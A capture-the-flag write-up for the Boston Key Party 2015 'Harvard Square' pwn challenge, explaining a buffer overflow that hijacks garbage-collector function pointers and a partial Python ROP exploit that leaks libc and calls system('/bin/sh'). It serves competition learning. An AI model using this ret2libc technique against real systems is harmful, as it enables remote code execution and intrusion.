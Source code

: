 # Boston Key Party CTF 2015: Harvard Square

**Category:** Pwning
**Points:** 275
**Solves:** 16
**Description:**

> can you be a leet 0day broker? 52.1.91.215 2114 (libc is ubuntu adf3305fcd0345f706019cf94687d50b libc-2.19.so) : 275

## Write-up

by [0xddaa](https://github.com/0xddaa)

The problem is a game about transcation of 0days.  
We can enter the password and cheat the game, but it's useless.   
The game print the message:  

>Welcome to 0day Warz - The goal of the game is to get the $100M USD by the end of the game. You have been given a loan of $2000, with some high interest rate of 25% a day!`

The programe for the goal of game:  
```
void play_game() {
    ...
    if (owed == 0.0) {
        if (money > 9999999)
      action_hiscore();
    }
  ...
}
void action_hiscore() {
    char buf[268];
  ....
  read(0, buf, 0x400);
  ...
}
```
However, if understanding the game rule, we can know the condition is impossible to reach.  
So we must find another vulunerbility.  
In fact, there is a bof when `play_game()` starting.  
It cannot overflow to return address, but we can use it to change function pointers. :D  

The programe use `simple-gc`.  
(https://github.com/dhamidi/simple-gc/)  
It's create two garbage-collectors and put function pointer `exploit_free` and `string_free` to gc.  
Then, gc will trigger when we do `sleep` action.  
We can overwrite function ptr to `action_hiscore`, and we can overwrite the return address.  

Now, we can write the exploit.  
```
arg1 => rdi
arg2 => rsi
arg3 => rdx
...
```

So we must find some gadget to control arguments at first.  
Then, we can use `put()` to leak arbitrary address.  
There exist a little bug.... stdout dupped to socket.  
We won't receive the content immediately.  
To solve this bug, I return to `action_hiscore()` again because it has `fflush()` at the end of function.  

After leak the address, we can calulate the address of `system()`.  
Next, We need a string of "/bin/sh".  
Luckily, we can find it in libc, too.  
So we can call `system("/bin/sh")` to get the shell.  

My partitial exploit:  
```
# leak address
raw_input("wait gdb")
read_until("name? ")
pop_rdi = up64("402fc3")
got = up64("605061")
put = up64("400cd0")
payload = "a"*280 + pop_rdi + got + put + bof
send_line(payload)
read_until("...-'\"\n")
read_until("!\n")

# get leak and count libc
leak = read_line().strip()[::-1].encode("hex")
base = int(leak+"00", 16) - 0x54400
system = hex(base + 0x46640)[2:]
system = up64(system)
binsh = hex(base + 0x17d87b)[2:]

# get and shell out
read_until("name? ")
buf = up64("605800")
payload = "a"*280 + pop_rdi + up64(binsh) + system
send_line(payload)
read_until("!\n")

t.interact()
```

`flag: stay_in_school_and_dont_do_the_grugq`  

## Other write-ups and resources

* <http://ddaa.logdown.com/posts/256270-boston-key-party-ctf-2015-275-harvard-square> or <http://ddaa.tw/bktctf_pwn_275_harvard_square.html>
* [Chinese](http://blog.orange.tw/2015/03/boston-key-parcty-ctf-2015-harvard.html)
* [Chinese](http://www.secpulse.com/archives/5013.html)
* <https://rzhou.org/~ricky/bkpctf2015/harvard_square/>
